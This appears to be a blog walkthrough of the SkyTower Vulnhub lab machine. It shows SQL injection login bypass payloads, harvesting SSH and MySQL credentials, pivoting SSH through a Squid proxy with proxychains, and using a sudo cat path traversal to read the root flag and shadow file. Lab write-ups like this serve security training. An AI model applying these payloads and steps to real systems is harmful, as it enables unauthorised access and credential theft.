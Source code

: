 ```yaml
---
published: true
---
```

Vulnhub virtual machine; OSCP prep box, classic linux box which began with some filtered SQLi and workarounds. The usage of proxychains came in to redirect our connection to target host. Escalation was interesting and getting a full shell even more so.

----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*
*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*

----------

VM Source: https://www.vulnhub.com/entry/skytower-1,96/

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977409782_image.png)




Discover VM on network:

    netdiscover -r 192.168.56.0/24
![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977444292_image.png)


Target: 192.168.56.101


# Enumeration

Nmap Scan:

    nmap -sV -sC -oA nmap/skytower 192.168.56.10

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977576646_image.png)


Looks as if an SSH server, HTTP server, and a second HTTP server on a non standard port.

Investigating HTTP - port 80 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977679404_image.png)


source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977704173_image.png)


Login page with a PHP backend. Lets try for a SQL-i.


![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977765172_image.png)


classic no go on first try.

second attempt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977805026_image.png)


no go again.


third attempt

    password: ' OR 1=1 --

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551978286002_image.png)


returned a SQL response message. Leading to believe it is injectable.


SQL injection evasion technique (just incase `OR` is being filtered):
evasion technique link: 


    username: ' *'
    password: ' *'

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551979348675_image.png)



Results in SSH credentials login/password information


    username: john
    password: hereisjohn



Investigate HTTP server - port 3128

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977876250_image.png)


source: 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551977900096_image.png)


`Stylesheet for Squid Error pages` identified

`squid/3.1.20` service identified on the main page.

Searchsploit for vulnerabilties:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551978062511_image.png)


nothing of immediate use. 


# Enter Proxychains

we will need to pivot via this other webserver as when we connect to the john@192.168.56.101 connection immediately closes.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551980017742_image.png)


so we need to configure proxychains `/etc/proxychains.conf` add add `http 192.168.56.101 3128`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551980096542_image.png)


save and reattempt:


![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551980145435_image.png)


 
 we successfully connect to the ssh server but again are kicked out. Lets call the `/bin/sh/` during the connection to see if this aids to the stablity

    proxychains ssh john@192.168.56.101 '/bin/sh'

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551980245505_image.png)


results in low level execution shell. We are now running locally through proxies on the box.




# RCE

Looking around I discover a few other users:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551980696078_image.png)


might be worth checking them out as john has really limited privileges.

investigating the `login.php`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551981638508_image.png)


and it just show happens to have mysql hard-coded passwords

Login to MySQL

    mysql -u root -p

username: root / password: root


    show databases;

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551981995328_image.png)

    use SkyTech;
    select * from login;
    \q #prints to screen

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551982050502_image.png)


we now have more credentials. Lets move to Sara


    proxychains ssh sara@192.168.56.101 '/bin/sh'

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551982197378_image.png)


check what sara can do `sudo -l`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551982238480_image.png)


we can `cat` as sudo we should take the shadow file.


![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551982312927_image.png)


not that easy without a full shell… lets append the information to another file

Moving to achieve a full tty - definitely a hard task but after some much research and discovering the `.bashrc` that was killing our connection with the `exit` was the issue. Next, we had to remove the bottom lines from `.bashrc`

bash.rc

    echo
    echo  "Funds have been withdrawn"
    exit

since nano and other editors were out the window.

    head -n -3 .bashrc > .bashrc

did the trick! Now I could login with an actual prompt.

well lets cat the flag

    sudo /bin/cat /accounts/../root/flag.txt    

![](https://d2mxuefqeaa7sj.cloudfront.net/s_F4089EA76A292BC463ED8F95A06442DE4FF086D50E39F5DF6CBD9DBB862D55F3_1551983889314_image.png)


Bring me the root!

-exec
